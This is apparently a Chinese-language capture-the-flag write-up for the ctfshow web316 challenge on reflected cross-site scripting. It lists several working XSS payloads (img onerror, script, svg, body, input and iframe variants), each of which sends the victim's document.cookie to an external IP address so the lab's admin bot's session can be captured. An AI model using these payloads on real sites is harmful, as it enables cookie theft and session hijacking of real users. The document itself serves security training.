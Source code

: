 # ctfshow

## web316

<img src="图片\Snipaste_2023-02-02_17-00-05.png" alt="Snipaste_2023-02-02_17-00-05" style="zoom:80%;" />

**反射型**，输入有回显，输入测试语句 `<script>alert(1)</script> `有弹窗，我们直接写入获取 cookie 的语句，然后发送到我们自己的服务器，靶场的机器人管理员会去点击页面访问我们的 payload

```
<img src=1 onerror=window.location.href='http://43.142.255.132/'+document.cookie;>
```

显示我们是admin，而且 cookie在变化

<img src="图片\Snipaste_2023-02-02_17-06-15.png" alt="Snipaste_2023-02-02_17-06-15" style="zoom:80%;" />

使用如下 payload

```
<script>document.location.href='http://43.142.255.132/'+document.cookie</script>
<body onload="window.open('http://43.142.255.132/'+document.cookie)"></body>
<svg onload="window.open('http://43.142.255.132/'+document.cookie)"></svg>
<input onfocus="window.open('http://43.142.255.132/'+document.cookie)" autofocus></input>
<iframe onload="window.open('http://43.142.255.132/'+document.cookie)"></iframe>
```
